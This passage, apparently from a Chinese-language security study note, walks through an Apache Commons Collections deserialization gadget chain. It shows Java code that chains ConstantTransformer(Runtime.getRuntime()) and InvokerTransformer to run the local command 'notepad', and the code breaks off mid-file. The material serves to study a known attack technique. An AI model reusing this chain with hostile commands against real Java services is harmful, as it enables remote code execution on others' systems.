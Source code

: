 

后面发现直接传入两个数组也能执行命令，很可能这种特殊的传递链条和下面参数的入口有很大关系。下面是穿两个的代码

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections2Test {

    public static void main(String[] args) throws Exception {
        // 定义需要执行的本地系统命令
        String cmd = "notepad";

        // ChainedTransformer调用链分解

//		// new ConstantTransformer(Runtime.class
//		Class<?> runtimeClass = Runtime.class;
//
//		// new InvokerTransformer("getMethod", new Class[]{
//		// 		String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
//		// ),
//		Class  cls1       = runtimeClass.getClass();
//		Method getMethod  = cls1.getMethod("getMethod", new Class[]{String.class, Class[].class});
//		Method getRuntime = (Method) getMethod.invoke(runtimeClass, new Object[]{"getRuntime", new Class[0]});
//
//		// new InvokerTransformer("invoke", new Class[]{
//		// 		Object.class, Object[].class}, new Object[]{null, new Object[0]}
//		// )
//		Class   cls2         = getRuntime.getClass();
//		Method  invokeMethod = cls2.getMethod("invoke", new Class[]{Object.class, Object[].class});
//		Runtime runtime      = (Runtime) invokeMethod.invoke(getRuntime, new Object[]{null, new Class[0]});
//
//		// new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
//		Class  cls3       = runtime.getClass();
//		Method execMethod = cls3.getMethod("exec", new Class[]{String.class});
//		execMethod.invoke(runtime, cmd);

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        // 创建ChainedTransformer调用链对象
        Transformer transformedChain = new ChainedTransformer(transformers);

        // 执行对象转换操作
        Object transform = transformedChain.transform(null);
```